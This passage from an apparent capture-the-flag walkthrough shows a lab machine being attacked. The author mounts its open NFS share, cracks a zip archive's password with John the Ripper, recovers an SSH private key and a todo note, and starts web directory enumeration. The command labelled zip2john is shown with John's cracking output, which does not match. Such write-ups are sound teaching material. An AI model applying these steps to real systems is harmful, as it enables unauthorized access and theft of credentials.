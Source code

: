 Using the `mount` command, we can mount the remote target share to our own filesystem, and find this:
```bash
┌──(hakcypuppy㉿kali)-[~/dev]
└─$ sudo mount -t nfs4 10.0.2.7:/srv/nfs /tmp/mount

┌──(hakcypuppy㉿kali)-[~/dev]
└─$ ls /tmp/mount
save.zip   # <----- from the target mount share
```
### Unzipping `save.zip`
Using `unzip` against `save.zip`, we discover the zipped file is password protected:
```bash
unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password:
```
#### [zip2john](cybersecurity/tools/cracking/john.md)
Using `zip2john` on the zip file, we're able to crack the password:
```bash
zip2john save.zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)        # <-----------
1g 0:00:00:03 DONE 3/3 (2023-10-09 14:45) 0.2923g/s 9806Kp/s 9806Kc/s 9806KC/s bbs1700..javona1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
#### Using the password
Now, if we use the password cracked by john (`java101`), we can try `unzip` again:
```bash
unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: java101  # <-------------
```
Two files are deflated from the zipped file: `id_rsa` and `todo.txt`.
### `todo.txt`
Starting w/ this file, let's `cat` the contents:
```bash
cat todo.txt                                                                    
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```
From this file we learn:
1. The main website is not installed properly (probably why we see a Bolt default page when we visit `http://10.0.2.7:80`)
2. There is a config file somewhere
3. There is a development website (which needs updating)
4. JP thinks *java is awesome*
## 4. [Feroxbuster](cybersecurity/tools/scanning-enumeration/dir-and-subdomain/feroxbuster.md)
### Port 80
Let's find some endpoints using feroxbuster: